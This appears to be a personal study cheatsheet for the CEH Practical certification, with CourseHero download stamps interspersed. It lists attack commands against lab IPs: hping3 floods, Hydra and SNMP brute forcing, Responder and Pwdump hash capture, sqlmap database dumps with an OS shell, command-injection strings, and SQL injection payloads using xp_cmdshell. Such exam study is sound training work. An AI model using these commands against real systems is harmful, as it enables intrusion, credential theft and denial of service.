 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes


**CEH Practical Notes**
**Module 02: Enumeration**
ping www.moviescope.com –f –l 1500 -> Frame size
tracert www.moviescope.com -> Determining hop count
Enumeration using Metasploit :
msfdb init
service postgresql start
msfconsole
msf > db_status
nmap -Pn -sS -A -oX Test 10.10.10.0/24
db_import Test
hosts -> To show all available hosts in the subnet
db_nmap -sS -A 10.10.10.16 -> To extract services of particular machine
services -> to get all available services in a subnet
SMB Version Enumeration using MSF
use scanner/smb/smb_version
set RHOSTS 10.10.10.8-16
set THREADS 100
run
hosts -> now exact os_flavor information has been updated

**Module 03 : Scanning Networks**
1. Port Scanning using Hping3:
hping3 --scan 1-3000 -S 10.10.10.10
--scan parameter defines the port range to scan and –S represents SYN flag.
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 2/5
2. Pinging the target using HPing3:
hping3 -c 3 10.10.10.10
-c 3 means that we only want to send three packets to the target machine.
3. UDP Packet Crafting
hping3 10.10.10.10 --udp --rand-source --data 500
4. TCP SYN request
hping3 -S 10.10.10.10 -p 80 -c 5
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which
port is assigned, and -c is the count of the packets sent to the Target machine.
5. HPing flood
hping3 10.10.10.10 --flood

**Module 04 : Enumeration**
SNMP Enumeration (161) :
nmap –sU –p 161 10.10.10.12
nmap -sU -p 161 --script=snmp-brute 10.10.10.12
msfconsole
use auxiliary/scanner/snmp/snmp_login
set RHOSTS and exploit
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS and exploit
NetBIOS Enumeration (139) :
nbtstat –A 10.10.10.16
net use
net use \10.10.10.16\e ““\user:””
net use \10.10.10.16\e ““/user:””
NetBIOS Enumerator
Enum4Linux Wins Enumeration :
enum4linux -u martin -p apple -U 10.10.10.12 -> Users Enumeration
enum4linux -u martin -p apple -o 10.10.10.12 -> OS Enumeration
enum4linux -u martin -p apple -P 10.10.10.12 -> Password Policy Information
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 3/5
enum4linux -u martin -p apple -G 10.10.10.12 -> Groups Information
enum4linux -u martin -p apple -S 10.10.10.12 -> Share Policy Information (SMB Shares
Enumeration
Active Directory LDAP Enumeration : ADExplorer

**Module 05 : Vulnerability Analysis**
nikto -h http://www.goodshopping.com -Tuning 1
Nessus runs on https://localhost:8834
Username: admin
Password: password
Nessus -> Policies > Advanced scan
Discovery > Host Discovery > Turn off Ping the remote host
Port Scanning > check the Verify open TCP ports found by local port enumerators
Advanced
Max number of TCP sessions per host and = unlimited
Max number of TCP sessions per scan = unlimited
Credentials > Windows > Username & Password
Save policy > Create new scan > User Defined
Enter name & Target
Schedule tab > Turn of Enabled
Hit launch from drop-down of save.

**Module 06: System Hacking**
NTLM Hash crack :
responder -I eth0
usr\share\responder\logs --> Responder log location
john /usr/share/responder/logs/ntlm.txt
Rainbow table crack using Winrtgen :
Open winrtgen and add new table
Select ntlm from Hash dropdown list.
Set Min Len as 4, Max Len as 6 and Chain Count 4000000
Select loweralpha from Charset dropdown list (it depends upon Password).
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 4/5
rcrack_gui.exe to crack hash with rainbow table
Hash dump with Pwdump7 and crack with ophcrack :
wmic useraccount get name,sid --> Get user acc names and SID
PwDump7.exe > c:\hashes.txt
Replace boxes in hashes.txt with relevant usernames from step 1.
Ophcrack.exe -> load -> PWDUMP File
Tables -> Vista free -> select the table directory -> crack

**Module 08: Sniffing**
http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request
Capture traffic from remote interface via wireshark
Capture > Options > Manage Interfaces
Remote Interface > Add > Host & Port (2002)
Username & password > Start

**Module 13: Hacking Web Servers**
FTP Bruteforce with Hydra
hydra -L /root/Desktop/Wordlists/Usernames.txt -P
/root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11

**Module 14: Hacking Web Applications**
Wordpress
wpscan --url http://10.10.10.12:8080 --enumerate u
WP password bruteforce
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
RCE
ping 127.0.0.1 | hostname | net user

**Module 15: SQL Injection**
SQLMAP Extract DBS
This study source was downloaded by 100000822351464 from CourseHero.com on 01-04-2024 06:35:09 GMT -06:00
https://www.coursehero.com/file/106860319/CEH-Practical-Notes-Adithyans-Blogpdf/
4/17/2021 CEH Practical Notes - Adithyan's Blog
https://blog.adithyanak.com/ceh-practical-notes 5/5
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="xookies xxx" --dbs
Extract Tables
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" -D moviescope --tables
Extract Columns
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" -D moviescope -T User_Login --columns
Dump Data
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" -D moviescope -T User_Login --dump
OS Shell to execute commands
sqlmap -u “ http://www.example.com/viewprofile.aspx?id=1”
--cookie="cookies xxx" --os-shell
Login bypass
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
